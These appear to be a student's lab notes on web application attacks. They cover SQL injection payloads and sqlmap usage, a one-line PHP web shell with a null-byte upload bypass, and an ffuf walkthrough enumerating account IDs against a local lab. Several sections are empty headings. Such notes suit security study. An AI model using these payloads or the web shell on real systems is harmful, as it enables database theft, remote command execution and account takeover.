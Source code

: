 
## SQL Injection (SQLi)
*Lots of webpages store data in SQL databases. If they don't sanitize user inputs, then it is possible to query the database from an input field *

[Cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

Detection
try single and double quotes 
'' ""
Use a # to terminate a line
```
<name>' or 1=1#
<name>' union select null, null#
<name>' union select null,null,version()#
<name>' union select null,null,table_name from information_schema.tables#
```
Since UNION joins parameters, it can only return as many

**Blind**
These are SQL injections that when executed, show no obvious clue to the user
1
**Cookies**


**SQL-Map**
Save a HTTP Post request with the query as a .txt
```
sqlmap -r <request file>
```
![[../../cheatsheet-sql-injection-fundamentals.pdf]]


## Cross Site Scripting (XSS)
## Command Injection
## Insecure File Upload
*Sometimes there are weak restrictions on file uploads*

Lets start easier with client side. 
Some systems authorize file uploads via client side. The file type is sent in the packet along with the file. If this is how it authz's, then it is possible to change the actual file-type of the file while leaving the part of the packet intact that does the authz. If changing just the header doesn't work there may be scanning after there may be server side authz.

```
<?php system($_GET['cmd']); ?>
```

You can all try using null bytes. This works with of PHP. Try change a file like this

```
image.php
```
to 
```
image.php%00.png
```
the null byte terminates the rest of the phrase, so it will instead end in the .php extension.

Now lets look at more server side techniques.

At the top of a file is metadata. You can see this metadata when you cat the file into the terminal. If the server authz's the file like this, then you will need to use a file matching the type you want. Send it, and capture the request in burp. Then clear out unneeded parts of the spoofed file-type and then insert the payload directly into it in burp.

![[../../cheatsheet-file-inclusion.pdf]]

## AUTHN Attacks
## External Entities Injection (XXE)
## Insecure Direct Object Reference (IDOR)
*Being able to manipulate a variable we really shouldn't even be able to see*
Here is a quick example, lets say you see this site
![[../../Pasted image 20250508150908.png]]
Lets look at that URL
![[../../Pasted image 20250508150933.png]]
It looks like the URL query PHP to show the account. The URL is *directly referencing* the account *object* in an *insecure* way. To exploit this I generated a list of numbers I thought would be in range.
![[../../Pasted image 20250508151416.png]]
Now I'll save this to a .txt file with
```
python3 -c "for i in range(1000,1201): print(i)" >> range.txt
```
Now lets use ffuf to fuzz out what numbers correspond with real accounts.
```
ffuf -c -u "http://127.0.0.1/labs/e0x02.php?account=FUZZ" -w range.txt
```
From here this shows us every single fuzzing attempt. Now find an index that was not a real account. While http file size will vary if you change based on the response, the not found probably won't change. So find a failed response size and add "-fs 849" to ffuf.
```
ffuf -u 'http://127.0.0.1/labs/e0x02.php?account=FUZZ' -w range.txt -fs 849

```
![[../../Pasted image 20250508152216.png]]
Now all the responses we get are for real users. 
To identify all the options i configured BurpSuite to show me all the admin and user accounts by using the grep-match option
![[../../Pasted image 20250508153934.png]]![[../../Pasted image 20250508153948.png]]
![[../../Pasted image 20250508154015.png]]
Using this we have found that the admins are
- 1008
- 1010
- 1012
- 1014
and the users are 1001-1019
### Capstone Notes